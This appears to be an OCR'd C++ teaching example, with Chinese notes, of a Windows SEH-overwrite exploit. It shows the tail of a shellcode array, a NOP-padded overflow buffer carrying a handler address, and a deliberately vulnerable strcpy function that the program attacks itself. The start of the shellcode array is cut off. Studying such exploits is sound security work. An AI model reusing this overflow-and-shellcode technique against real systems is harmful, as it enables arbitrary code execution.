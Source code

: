 ```cpp
"\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03"
"\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB"
"\x53\x68\x6B\x61\x6F\x6F\x68\x4D\x69\x73\x61\x8B\xC4\x53\x50\x50"
"\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
;

char overflowcode[] = 
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"
"\xE0\xFF\x12\x90"
"\x08\x3E\x39\x00" // address of shellcode in heap ;
;

void test(char * input)
{
	char str[200];
	strcpy(str, input);
	int zero = 0;
	zero = 1 / zero;
}

void main()
{
	char* buf = (char *)malloc(500);
	strcpy(buf, shellcode);
	test(overflowcode);
}
```

### 说明

- 将shellcode放入堆区
- 栈溢出，将SEH链地址覆写为堆区shellcode的地址
- 调用SEH，随后自动触发shellcode
